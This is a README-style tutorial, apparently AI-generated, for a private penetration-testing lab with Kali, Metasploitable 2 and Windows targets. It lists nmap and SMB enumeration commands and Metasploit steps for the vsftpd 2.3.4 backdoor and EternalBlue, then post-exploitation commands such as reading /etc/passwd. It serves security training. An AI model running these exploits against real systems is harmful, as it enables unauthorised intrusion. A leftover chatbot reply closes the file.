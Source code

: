 # 🛡️ A Detailed guide to setting up a safe and practical Real world penetration testing lab.

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Targets-Metasploitable%20%26%20Windows-red?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This guide is designed for **ethical hackers and cybersecurity enthusiasts** to practice penetration testing in a **safe, isolated, and realistic environment**.

**Lab Components:**

| Machine   | OS               | IP Address       | Role                         |
|-----------|-----------------|----------------|------------------------------|
| Attacker  | Kali Linux       | 192.168.142.128 | Pentester machine            |
| Target 1 | Metasploitable 2 | 192.168.142.130 | Vulnerable Linux machine     |
| Target 2 | Windows 10/Server| 192.168.142.132 | Vulnerable Windows machine   |

**Objectives:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation.
- Practice both Linux and Windows target exploitation in a controlled environment.
- Build a detailed report of findings.

---

## 🔹 Lab Setup

### 1. Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux VM
- Metasploitable 2 VM
- Windows VM (10/Server)
- Internal network setup for isolation
- Snapshots before testing

### 2. Network Configuration
1. Set all VMs to **Host-Only Adapter** or **Internal Network**.
2. Confirm connectivity between machines:
```bash
ping 192.168.142.130
ping 192.168.142.132
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather info without directly contacting the target:

```bash
whois 192.168.142.130
whois 192.168.142.132
nslookup 192.168.142.132
```

#### Active Recon

* Scan for open ports and services with **Nmap**:

```bash
nmap -sS -Pn 192.168.142.130
nmap -sS -Pn 192.168.142.132
```

* Detailed scanning with service detection:

```bash
nmap -A -p- 192.168.142.130
nmap -A -p- 192.168.142.132
```

---

### Step 2: Enumeration

#### Linux Target

* Identify services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP Banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux 192.168.142.130
```

#### Windows Target

* SMB enumeration:

```bash
smbclient -L \\192.168.142.132 -U Administrator
```

* RDP/SMB service detection:

```bash
nmap -p 3389,445 -sV 192.168.142.132
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to find known exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit ms17-010
```

* Metasploit module usage example:

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

---

### Step 4: Exploitation

#### Linux Target

* Exploit FTP vulnerability:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

#### Windows Target

* Exploit SMB vulnerability:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

* Gain shell access:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Linux target:

```bash
uname -a
cat /etc/passwd
ifconfig
sudo -l
```

* Windows target:

```powershell
systeminfo
net user
whoami /priv
```

* Extract sensitive information or pivot to other machines (in lab only).

---

### Step 6: Reporting

Document all findings with screenshots, PoCs, and mitigation steps.

**Sample Table:**

| Vulnerability | Exploit Used  | Impact                | Mitigation                      |
| ------------- | ------------- | --------------------- | ------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access   | Upgrade FTP / Disable anonymous |
| SMB MS17-010  | EternalBlue   | Remote Code Execution | Apply Windows Update / Patch    |

---

## 🔹 Recommended Tools

* **Kali Linux Tools:** Nmap, Netcat, Metasploit, Enum4linux, Nikto, Dirb
* **Windows Testing Tools:** PowerShell, CrackMapExec, SMBMap
* **Analysis Tools:** Wireshark, Burp Suite

---

## 🔹 Best Practices

* Always take VM snapshots before testing.
* Keep the lab **isolated from the internet**.
* Use only lab IP addresses to avoid accidental attacks.
* Document every step carefully for reporting.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [MS17-010 EternalBlue](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Do **NOT** perform penetration testing on unauthorized networks. Unauthorized testing is illegal and unethical.

```

---

If you want, I can also **add rich visuals, diagrams, folder structures, and GitHub badges for tools, OS, and steps**—so it becomes a **full professional lab README.md** ready to impress on GitHub.  

Do you want me to enhance it with visuals and structure?
```
